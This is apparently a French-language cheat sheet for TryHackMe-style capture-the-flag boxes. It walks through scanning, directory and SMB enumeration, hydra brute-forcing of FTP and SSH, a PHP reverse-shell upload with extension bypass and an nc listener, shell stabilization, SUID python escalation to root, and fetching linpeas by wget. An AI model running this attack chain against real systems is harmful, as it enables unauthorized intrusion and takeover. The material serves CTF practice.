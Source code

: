 # 0 : pourquoi?
pour faire des ctf  alors ici on parle de easy,medium,hard de tryhackme et pas de ctf a 10k$ mais c'est la base les choses que tu vois tout le temp quand tu fais un ctf sur thm,hackthebox,etc




# 1. reconnaissance avec nmap

1.1 scan complet des ports

nmap -Pn -sC -sV -A -p- -oN recon.txt <ip>
-Pn : bypass ping

-sC : scripts par défaut (enamel, version, vuln…)

-sV : détection de version

-A : os + scripts + traceroute

-p- : scan 0–65535

exemple :


PORT     STATE SERVICE VERSION


21/tcp   open  ftp     vsftpd 3.0.3


22/tcp   open  ssh     OpenSSH 7.6p1 Debian


80/tcp   open  http    Apache 2.4.29


445/tcp  open  smb     Samba smbd 4.7.6

 on note les ports ouverts

on note chaque version et les services pour une potentielle analyse de vuln sur exploit db ou searchsploit

# 2. bruteforce de répertoires avec gobuster

gobuster dir -u http://<ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -o gobuster.txt

gobuster = outil, -u pour specifier l'url, -w pour specifier la liste de mots -t pour les threads et -o pour output = enregistrer les results dans un fichier

options importantes : -x txt,php = si cette option est choisi gobuster va enumerer seulement les fichiers avec l'extension precisée


# 3. enumeration SMB via enum4linux


enum4linux -a <ip> | tee enum4linux.txt

-a = tout : utilisateurs, partages, politiques, info OS

sortie normale : 

Users:
   user1
   user2
Shares:
   Anonymous
   pics
   IPC$

permet de repérer des partages accessibles (anonymes ou non)

note les utilisateurs listés

# 4. accès FTP anonyme ou authentifié

4.1 ftp anonyme

ftp <ip>
Connected to...
Name (ip:user): anonymous
si ca demande un mdp,pareil pour ssh je crois,on met juste entrer(si cen anonymous)
si ca marche,recupere le max de fichier important!
si    le login anonymous ne marche pas ...

# 4.2 authentification

si ftp demande login/mot de passe

on peux lancer hydra -l user -P wordlist ftp://<ip>

# 5. connexion SSH

si on trouves des identifiants (ex. via bruteforce, dump)

ssh user@<ip>

pour bruteforce :

hydra -L users.txt -P rockyou.txt ssh://<ip>
si ca passe bah on se co et on essaye de privesc

# 6. upload web + reverse shell

contexte : on trouve un upload ou un panel d'upload de fichiers,on pense donc a un rvshell en php,mais ca ne fonctionne pas pouir une raison ou une autre,on essaye de coutourner cela en changeant l'extension du fichier


# 6.1 bypass de filtre
teste .php, .phtml, .php3, .php5 via Burp ou manuel.

# 6.2 préparation du payload

on a un reverse shell en php d'installé sur notre machine,par ex : php-reverse-shell.php

on le modifie en : php-reverse-shell.phtml ou une autre extension de php

# 6.3 listener et upload

nc -lvnp 2121 (2121 est le port sur lequel j'ecoute)

upload avec form dans /uploads/…

accès via navigateur : http://<ip>/uploads/shell.phtml

reçoit shell en www-data, apache, etc.

# 7. stabilisation du shell

python3 -c 'import pty; pty.spawn("/bin/bash")'


export TERM=xterm


ctrl+z


stty raw -echo; fg

pty.spawn → interactive shell

TERM=xterm → flèches/autocomplétion

stty raw -echo; fg → remise du terminal

# 8. steg et analyse de fichiers telechargés

outils utiles :
steghide, binwalk, zsteg, exiftool

ex : 

steghide extract -sf image.jpg
zsteg image.png

# 9. post‑exploitation & enumeration

commandes utiles :

whoami (qui suis-je)
id
hostname
uname -a
ls /home /var/www$

repère le flag utilisateur(si ICI) souvent user.txt

exécute :


find / -perm /4000 -type f 2>/dev/null

note les fichiers avec bit SUID inattendus (ex. /usr/bin/python)

# 10. élévation de privileges

10.1 python SUID

/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

si py = suid : retour root

ah et aussi plus simple,utiliser linpeas.sh

# HM : linpeas

en gros linpeas va automatiquement chercher des paths avec des privligeges elevés,a noter que dans les ctf,c'est souvent python

alors on telecharge linpeas depusi github ou peu importe

on fait un serveur avec python3

puis sur la machien cible on fait un wget sur notre fichier linpêas pour le telecharger

puis en le rend executable

chmod +x linpeas.sh

et on l'execute

./linpeas.sh







